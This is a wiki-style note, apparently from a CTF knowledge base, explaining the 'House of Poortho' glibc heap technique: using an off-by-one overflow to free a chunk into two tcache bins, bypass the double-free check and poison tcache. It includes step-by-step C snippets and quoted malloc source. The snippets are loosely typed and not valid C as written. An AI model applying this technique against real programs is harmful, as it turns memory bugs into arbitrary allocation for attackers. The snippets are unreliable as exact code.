 ```yaml
---
tags:
  - pwn
  - pwn/technique
  - pwn/heap
---
```

# Description
The **House of Poortho** is a technique that leverages an [[off-by-one]] overflow on a buffer on the heap (most commonly a *null byte* overflow) to cause a [[double free]].

TL;DR:
1. We allocate two adjacent chunks
2. We free the second chunk
3. We use the off-by-one overflow on the first chunk to change the size of the second chunk
4. We free the second chunk again, bypassing the tcache double free check introduced in glibc 2.29 since the second chunk is in a different tcache bin.

As of glibc 2.42, it does not appear to have been mitigated.
# Attack
Note that these are written with glibc 2.29 in mind. In versions newer than 2.31, a heap leak is also required to decrypt safe linking.
## Requirements
- [[off-by-one]] overflow
- ability to try freeing an address twice
## Results
- [[double free]] / [[tcache poisoning]]
## Process
### Parameters/Constraints
- Chunk `a` size: `sz_a`, must be tcache sized and have a least significant nibble of `0x8` (to enable the off-by-one overflow)
- Chunk `b` size: `sz_b`, must be tcache sized and is the desired tcache poisoning size.\* The off-by-one overflow must also be able to change the size of chunk `b`, i.e. if you are limited to a null byte overflow then the actual\*\* size of chunk `b` must be at least `0x110` and cannot end with `0x00`.
\**Technically, the actual size of chunk `b` after overflowing can also be the desired tcache poisoning size. But it is simpler this way.*
\*\**By actual size, I mean the chunk size written in the chunk header.*
- Target pointer for allocation, `target`
### Steps
This analysis will assume that we have a *null byte* overflow and:
- `sz_a = 0x28`
- `sz_b = 0x100` (the actual size will be `0x110`)

1. Allocate chunks `a` and `b`
	```c
	intptr_t a = malloc(0x28);
	intptr_t b = malloc(0x100);
	```
2. Free `b`
	```c
	free(b);
	```
	Which results in the following heap structure:
	```
	a:  0x0    0x41
	    0x0    0x0
		0x0    0x0
	b:  0x0    0x111
		next   key
	```
	Where next is `0x0` (provided tcache starts empty) and key points to the `tcache_perthread_struct`.
3. Use the off-by-one overflow on chunk `a` to overflow into the header of chunk `b`, shrinking chunk `b`
	```c
	memset(a, 0, 0x28 + 1);
	```
	That is,
	```
	b:  0x0    0x100
	```
4. Free `b` again
	```c
	free(b);
	```
	Since `b` now has a size of `0x100`, according to its chunk header, it will be freed into a different tcache bin. Notably, the [double free check](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c#L4197) introduced in glibc 2.29 does *not* check for this:
	```c
		/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
	```
	As you'll notice, when it realizes the "key" field of chunk `b` still points to the `tcache_perthread_struct`, it checks if the freed chunk already exists in the relevant tcache bin. However, since chunk `b` was freed to two different tcache bins, this check passes, giving us a double free!
5. From here, we can simply poison tcache. For instance, the following code will allocate a chunk of size `0x110` at `target`.
	```c
	intptr_t b_uaf = malloc(0x100); // reallocate the chunk that was just freed
	b_uaf[0] = target;
	intptr_t poison = malloc(0x110);
	printf("%x", poison - 0x10); // should output the target allocation address!
	```
# References
1. https://redpwn.net/writeups/picoctf2019/zero_to_hero/ (credit to @jespiron from redpwn for telling me about this house :D)
2. https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c